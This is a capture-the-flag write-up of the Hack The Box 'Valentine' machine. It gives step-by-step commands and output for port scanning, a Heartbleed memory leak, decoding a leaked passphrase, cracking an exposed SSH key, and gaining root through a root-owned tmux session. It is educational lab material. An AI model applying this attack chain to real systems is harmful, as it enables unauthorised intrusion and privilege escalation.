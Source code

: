 ```yaml
---
title: 'Valentine Writeup'
date: 2018-07-27
thumbnailImagePosition: left
thumbnailImage: /img/posts/2018/07/valentine-writeup/valentine-banner.jpg
coverImage: /img/posts/2018/07/valentine-writeup/valentine-banner.jpg
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Hackthebox
- CTF
- Writeup
tags:
- hackthebox
- htb
- pentest
- ctf
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "Heartbleeds and dirty cows, i feel sorry for the creator!"
---
```

Connecting to Hack the Box[^1] using the supplied VPN, my Valentine box have the IP: 10.10.10.79
As per usual, lets start with Recon and NMAP the target IP
```
root@kali:~/Valentine$ nmap -p- --version-all -sV -sS 10.10.10.79
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-02 22:27 CET
Nmap scan report for 10.10.10.79
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT      STATE  SERVICE   VERSION
22/tcp    open   ssh       OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp    open   http      Apache httpd 2.2.22 ((Ubuntu))
443/tcp   open   ssl/http  Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.78 seconds
```
So we are dealing with some kind of webserver.
The root directory of the address is only displaying an image on both webports (80/443), next step would be trying to enumerate directories!  
![Valentine root image](/img/posts/2018/07/valentine-writeup/omg-1.jpg)  
I usually use the tool "gobuster" to enumerate webdirectories with a wordlist, and point it to Burpsuite Proxy. That way, any link or directory that gobuster finds, will Burpsuite automatically spider as well as record in its console.  
So lets point gobuster towards the webserver and let it run in the background
```
root@kali:~/Valentine$ gobuster -u http://10.10.10.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -p 127.0.0.1:8080 -x php
```
Now sticking with the theme Valentine, the image is referencing the exploit Heartbleed[^2] which targets SSL (port 443). its also available on ExploitDB, therefor theres a local variant in kali. You might though have to run this a couple times to get the data thats relevant.
```
root@kali:~/Valentine$ searchsploit heartbleed
root@kali:~/Valentine$ cp /usr/share/exploitdb/exploits/multiple/remote/32764.py .
root@kali:~/Valentine$ python 32764.py 10.10.10.79 > heartbleed.txt
root@kali:~/Valentine$ cat heartbleed.txt
[..snip..]
00f0: 01 00 00 00 10 00 0E 00 00 0B 31 30 2E 31 30 2E ..........10.10.
0100: 31 30 2E 37 39 6F 6E 2F 78 2D 77 77 77 2D 66 6F 10.79on/x-www-fo
0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 rm-urlencoded..C
0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34 ontent-Length: 4
0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63 2....$text=aGVhc
0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64 nRibGVlZGJlbGlld
0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 43 mV0aGVoeXBlCg==C
0160: 05 16 1F AC BA A4 D1 E0 45 10 F2 B0 B6 9E 4B 30 ........E.....K0
0170: 01 06 7D 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C ..}.............
0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
[..snip..]
```
Now that $text parameter in the response looks like a base64 encoded string.  
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
root@kali:~/Valentine$ echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
heartbleedbelievethehype
```
Lets save that to the notes and pop back to see what the result of gobuster is up to.
```
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.79/
[+] Threads      : 200
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 302,307,200,204,301
[+] Proxy        : 127.0.0.1:8080
[+] Extensions   : .php
=====================================================
/index (Status: 200)
/index.php (Status: 200)
/dev (Status: 301)
/encode (Status: 200)
/encode.php (Status: 200)
/decode (Status: 200)
/decode.php (Status: 200)
/omg (Status: 200)
=====================================================
```
So encode and decode just seems to be two php functions that does what they say to base64 strings. They didn't seems that vulnerable to command injections either. But /dev looks interesting , browsing to that reveals two files.  
![Valentine_Slash_dev](/img/posts/2018/07/valentine-writeup/Valentine_Slash_dev.png)  
Taking a peek at notes.txt shows a checklist.
```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```
The file hype_key contains an ASCII encoded SSH Private Key, so download that and pipe it to xxd.
```
root@kali:~/Valentine$ cat hype_key | xxd -r -p > rsa.encrypted
root@kali:~/Valentine$ cat rsa.encrypted
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
[..super snip..]
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```
According to Proc-Type its encrypted, so next step would be to decrypt it using JohnTheRipper!  
First lets create a JTR compatible file to crack, then remembering the decoded base64 string before, might be the password.
```
root@kali:~/Valentine$ ssh2john rsa.encrypted > rsa.john
root@kali:~/Valentine$ echo "heartbleedbelievethehype" | john --stdin rsa.johnssh
```
That should successfully crack the Private Key!  
Now we only need to change the permissions and try to connect, what we're missing is the username to connect with, but reading the private keys filename "hype_key", we can always try "hype".
```
root@kali:~/Valentine$ chmod 0600 rsa.encrypted
root@kali:~/Valentine$ ssh -i rsa.encrypted hype@10.10.10.79
Enter passphrase for key 'rsa.encrypted': heartbleedbelievethehype
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$
```
So that takes care of the initial shell, now lets enumerate the system and see what we can find out to Privilege Escalate to root!  
G0tmi1k[^3] Has a really good cheat sheets in how to enumerate linux systems!  
So lets do some basic things.
```
hype@Valentine:~$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```
So having a kernel means that it might be vulnerable to the Dirtycow[^4] exploit.  
But generally using such exploit is frowned upon since it might crash the box and ruin the day for other people.  
So lets continue enumerating and hope we find something else.
```
hype@Valentine:~$ history
.....snip....
8 ls -la
9 tmux -L dev_sess
10 tmux a -t dev_sess
11 tmux --help
12 tmux -S /.devs/dev_sess
13 exit
.....snip....
```
Now running history shows that theres a tmux session (item 12) hype connected to, and running "ps -aux" to check all running processes also shows that the tmux session is running as root.  
Lets connect to the same session.
```
hype@Valentine:~$ !12
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
```
Done!

[^1]: [www.hackthebox.eu](www.hackthebox.eu)
[^2]: [www.heartbleed.com](http://heartbleed.com/)
[^3]: [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^4]: [www.dirtycow.ninja](https://dirtycow.ninja)
